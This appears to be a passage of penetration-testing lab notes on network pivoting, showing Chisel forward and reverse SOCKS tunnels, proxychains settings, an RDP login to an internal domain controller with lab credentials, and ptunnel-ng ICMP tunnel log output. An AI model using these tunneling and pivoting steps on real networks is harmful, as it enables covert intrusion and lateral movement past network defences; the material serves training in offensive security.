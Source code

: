 #### Connecting to the Chisel Server

```bash
./chisel client -v 10.129.202.64:1234 socks
```

#### Editing & Confirming proxychains.conf

```bash
tail -f /etc/proxychains.conf 

#
#       proxy types: http, socks4, socks5
#        ( auth types supported: "basic"-http  "user/pass"-socks )
#
[ProxyList]
# add proxy here ...
# meanwile
# defaults set to "tor"
# socks4  127.0.0.1 9050
socks5 127.0.0.1 1080
```

Now if we use proxychains with RDP, we can connect to the DC on the internal network through the tunnel we have created to the Pivot host.

#### Pivoting to the DC

```bash
proxychains xfreerdp /v:172.16.5.19 /u:victor /p:pass@123
```

### Chisel Reverse Pivot

#### Starting the Chisel Server on our Attack Host

```bash
sudo ./chisel server --reverse -v -p 1234 --socks5
```

Then we connect from the Ubuntu (pivot host) to our attack host, using the option `R:socks`

#### Connecting the Chisel Client to our Attack Host

```bash
./chisel client -v 10.10.14.17:1234 R:socks
```

We can use any editor we would like to edit the proxychains.conf file, then confirm our configuration changes using `tail`.

#### Editing & Confirming proxychains.conf

```bash
tail -f /etc/proxychains.conf 

[ProxyList]
# add proxy here ...
# socks4    127.0.0.1 9050
socks5 127.0.0.1 1080 
```


[inf]: Starting ptunnel-ng 1.42.
[inf]: (c) 2004-2011 Daniel Stoedle, <daniels@cs.uit.no>
[inf]: (c) 2017-2019 Toni Uhlig,     <matzeton@googlemail.com>
[inf]: Security features by Sebastien Raveau, <sebastien.raveau@epita.fr>
[inf]: Forwarding incoming ping packets over TCP.
[inf]: Ping proxy is listening in privileged mode.
[inf]: Dropping privileges now.
[inf]: Starting ptunnel-ng 1.42.
[inf]: (c) 2004-2011 Daniel Stoedle, <daniels@cs.uit.no>
[inf]: (c) 2017-2019 Toni Uhlig,     <matzeton@googlemail.com>
[inf]: Security features by Sebastien Raveau, <sebastien.raveau@epita.fr>
[inf]: Relaying packets from incoming TCP streams.
[inf]: Starting new session to 10.129.202.64:22 with ID 20199
[inf]: Received session close from remote peer.
[inf]: I/O:   0.00/  0.00 mb ICMP I/O/R:      248/      22/       0 Loss:  0.0%
